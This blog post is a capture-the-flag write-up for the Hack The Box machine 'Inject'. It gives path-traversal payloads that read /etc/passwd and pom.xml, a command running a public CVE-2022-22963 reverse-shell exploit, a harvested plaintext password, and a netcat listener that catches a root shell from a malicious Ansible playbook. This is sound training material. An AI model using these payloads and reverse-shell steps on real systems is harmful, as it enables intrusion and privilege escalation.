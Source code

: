 ```yaml
---
layout: single
title: Inject - Hack The Box
date: 2023-06-30
excerpt: "Inject is a very fun easy linux machine from hackthebox . in our case we were faced with a file upload which turned out to be only rabbit holes. by using the img parameter we can find LFI vulnerabilities. from this vulnerability we can find pom.xml file which contains system information of application using spring-cloud-function-web with version 3.2.2. Then when we arrive at the system shell, we can identify the password for user phil which is useful for getting root privileges on the system. The process to reach our root user only needs to upload the malicious playbook.yml, and after that crontab will do everything."
header:
  teaser: /assets/img/inject/Inject.png
  teaser_home_page: true
  icon: /assets/htb.png
categories:
  - hackthebox
  - infosec
tag:
    - Linux
    - Redis
    - XSS
    - LFI
    - RCE
    - Format String Python

toc: true
toc_sticky: true
---
```

![](/assets/img/inject/Inject.png)

## Synopsis
Inject is a very fun easy linux machine from hackthebox. in our case we were faced with a file upload which turned out to be only rabbit holes. by using the img parameter we can find LFI vulnerabilities. from this vulnerability we can find pom.xml file which contains system information of application using spring-cloud-function-web with version 3.2.2. Then when we arrive at the system shell, we can identify the password for user phil which is useful for getting root privileges on the system. The process to reach our root user only needs to upload the malicious playbook.yml, and after that crontab will do everything.

## Portscan

```powershell
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
|_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

![](/assets/img/inject/1.png)

i usually using burpsuite, because this apps has a scanner feature. in short we can find another folder, which is file upload.

![](/assets/img/inject/8.png)

actually this feature just a rabbit holes, because i already testing with inject payload with an image using `exiftool`, polyglot.php (Change the MIME type) without any luck. so the thing is we can determining another vulnerability, which is **Path Traversal**. we can just use a simple payload like `../` and you can get the output like image below.

![](/assets/img/inject/2.png)

Long short story, i can gather information as much as i do, including what apps this system use and file `../../../../../../etc/passwd` <- payload.

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[snip]
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
[snip]
```

and for system information which is `spring cloud` on pom.xml

```http
GET /show_image?img=../../../pom.xml HTTP/1.1
Host: 10.10.11.204:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

result from pom.xml

```xml
<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
</dependency>
```

You can read information about the CVE-2022 in [here](https://sysdig.com/blog/cve-2022-22963-spring-cloud/), and for the exploit script you can grab this file in [here](https://raw.githubusercontent.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit/main/exploit.py). Execute command below will lead you into system as frank.

```python
python3 exploit.py -u http://10.10.11.204:8080/
```

![](/assets/img/inject/3.png)

in frank directory, i found another information on **settings.xml**. This file contains password for user phil.

![](/assets/img/inject/4.png)

```xml
#settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```
and for switch user, you can use `su phil` comamand and given the password

![](/assets/img/inject/5.png)

## Privilege Escalation

After reach this step, i preffer using `linpeas.sh` for gather more information about how to reach root user. And found an interesting information about automation apps like `ansbile` on directory `/opt/automation/tasks/`.

```bash
╔══════════╣ Modified interesting files in the last 5mins (limit 100)
[snip]
/tmp/hsperfdata_frank/804
/opt/automation/tasks/playbook_1.yml
/var/log/syslog
[snip]
```

Based on [this](https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/) article, we can make another `yml` file with payload to reverse connection back to our `netcat`. This below my payload with name playbook_2.yml

![](/assets/img/inject/carbon.png)


upload into system and execute command `rlwrap nc -lnvp 9000` will lead you into root system.

![](/assets/img/inject/6.png)

![](/assets/img/inject/7.png)


# Refferences
```terminal
https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/
https://gist.githubusercontent.com/Reelix/32ccf1baaa3066654a460265fca53960/raw/7c61e2ec5c2261d525f4726e5d0511824ac0e15e/reverse-shell.yml
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/
https://gtfobins.github.io/gtfobins/ansible-playbook/
```